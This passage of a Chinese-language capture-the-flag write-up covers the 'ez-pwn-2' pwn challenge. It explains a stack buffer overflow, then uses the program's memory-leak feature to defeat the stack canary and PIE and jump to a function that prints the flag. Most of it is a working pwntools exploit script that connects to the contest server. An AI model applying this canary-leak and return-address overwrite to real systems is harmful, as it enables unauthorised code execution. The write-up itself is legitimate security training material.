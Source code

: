 而可以清楚的觀察到 `local_28` 是一個長度為 24 位的陣列，但是可以寫入 0x40 個內容，明顯的 BOF

另外可以觀察到有一個位在 0x001008f7 (有 PIE) 的 `this_function_literally_prints_the_flag` 函式，會讀取 flag.txt 的內容並輸出出來

因此我們可以利用該程式的功能讀取 canary (目前位置 +0x18) 和 return address (目前位置 +0x28)，即可繞過 canary 和 PIE 防護，達到 ROP 執行印 flag 的函式

:::spoiler solve.py
```python=
from pwn import *
from Crypto.Util.number import long_to_bytes
binary = "./dist/ez-pwn-2"

def process_retval(data: bytes) -> bytes:
    ret = b""
    for i in range(len(data)-2, -1, -2):
        ret += data[i:i+2]
    return ret

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("pwn.bbctf.fluxus.co.in", 4002)
# conn = process(binary)
# conn = gdb.debug(binary)

conn.recvuntil(b"You are here: 0x")
current_pos = int(conn.recvline().strip().decode(), base=16)
log.info(f"current_pos = 0x{long_to_bytes(current_pos).hex()}")

conn.sendafter(b"8 leaked bytes:\n", long_to_bytes(current_pos+0x18)[::-1].hex().encode())
conn.recvline()
canary = process_retval(conn.recvline().strip()).decode()
log.info(f"{canary = }")

conn.sendafter(b"8 leaked bytes:\n", long_to_bytes(current_pos+0x28)[::-1].hex().encode())
conn.recvline()
pie_base = int(process_retval(conn.recvline().strip()), base=16)
log.info(f"pie_base = 0x{long_to_bytes(pie_base).hex()}")

flag_func = pie_base - 0xa21 + 0x8f7

payload = long_to_bytes(current_pos+0x18)[::-1].hex().encode()
payload += b"\x00" * (0x18 - len(payload))
payload += bytes.fromhex(canary)[::-1]
payload += b"A" * 8
payload += p64(flag_func)
conn.sendafter(b"8 leaked bytes:\n", payload)

conn.interactive()
```
:::
